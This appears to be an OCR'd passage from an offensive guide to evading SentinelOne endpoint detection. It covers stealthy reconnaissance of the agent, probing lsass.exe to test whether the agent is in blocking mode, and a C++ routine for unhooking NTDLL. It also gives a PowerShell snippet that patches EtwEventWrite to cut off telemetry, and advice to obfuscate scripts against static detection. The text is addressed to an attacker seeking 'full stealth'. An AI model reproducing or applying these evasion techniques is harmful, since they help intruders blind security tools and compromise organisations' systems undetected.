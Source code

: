 •	OPSEC: Perform these checks in-memory or in a covert way if possible (e.g., via API calls instead of spawning a visible sc.exe command) to avoid leaving obvious traces like the string "Sentinel" in command-line logs.

•	Suspicious Activity Test (Optional): Consider a benign test to gauge how aggressively the agent is set to respond:

o	For example, try to open a handle to the lsass.exe process (the Local Security Authority) using a low-level call. If that action is instantly blocked or your process is killed, SentinelOne is in a blocking mode (prevention) and you’ll need full stealth. If nothing happens, the agent might be in a detect-only mode or is less sensitive, but do not rely on that—still assume it can detect you if you’re noisy.

3. Userland EDR Evasion Steps
   
•	Unhook NTDLL: Inject a small routine or use a tool to unhook API hooks in your current process (and any target process you plan to migrate into). Pseudocode approach: Open ntdll.dll on disk, read the first few bytes of key functions, and write those bytes over the beginning of the hooked functions in memory to restore them. For example, patch the start of NtProtectVirtualMemory in memory with the bytes from the clean disk copy. Do this for all critical functions you suspect are hooked (you can maintain a list of common hooked APIs). There are open-source utilities that automate this (e.g., ThreadStackSpoofer or InlineUnhooker).
```
// Simplified C++ unhooking example:
BYTE cleanBytes[5];
HANDLE hFile = CreateFile(L"C:\\Windows\\System32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
// ... find offset of NtProtectVirtualMemory ...
SetFilePointer(hFile, offset, NULL, FILE_BEGIN);
ReadFile(hFile, cleanBytes, 5, NULL, NULL);
CloseHandle(hFile);

// Write these bytes to the loaded ntdll in memory
BYTE *funcAddr = (BYTE*)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtProtectVirtualMemory");
DWORD oldProt;
VirtualProtect(funcAddr, 5, PAGE_EXECUTE_READWRITE, &oldProt);
memcpy(funcAddr, cleanBytes, 5);
VirtualProtect(funcAddr, 5, oldProt, &oldProt);
```
Note: The above is conceptual. In practice, you’d loop through multiple functions. Also consider using existing tools/scripts to do this rather than reinventing it live. If you plan to migrate or spawn new processes, you’ll need to unhook in those processes as well (e.g., inject your unhooking routine into them or start them in a suspended state and unhook before resuming).

•	PowerShell Alternative: Instead of doing the above in C/C++, you can use a PowerShell script with reflective DLL loading to achieve unhooking. For instance, Invoke-ReflectivePEInjection could load a fresh ntdll.dll into memory and compare function byte patterns to identify hooks, then patch them. There are published PowerShell scripts for EDR unhooking; just be sure to heavily obfuscate them to avoid static detection.

•	Disable ETW (Optional but Recommended): As mentioned in Threat Hunting Evasion, patching ETW functions can prevent SentinelOne from receiving telemetry. For example, in PowerShell you could do something like:
```
$Etw = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
          ( [IntPtr] (Get-ProcAddress (Get-ModuleHandle 'ntdll'), 'EtwEventWrite') ),
          (Get-Type 'System.Int32') )
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(1)
[System.Runtime.InteropServices.Marshal]::Copy((,[byte]0xC3), 0, $mem, 1)  # 0xC3 = RET instruction
$oldProt = [ref]0
VirtualProtect($Etw.Method.MethodHandle.GetFunctionPointer(), 1, 0x40, $oldProt) | Out-Null
[System.Runtime.InteropServices.Marshal]::Copy($mem, 0, $Etw.Method.MethodHandle.GetFunctionPointer(), 1)
```
(The above uses a lot of .NET interop; ensure the pointers and types are correct. Alternatively, use a C# implant to patch EtwEventWrite via P/Invoke, as shown in the C example earlier.)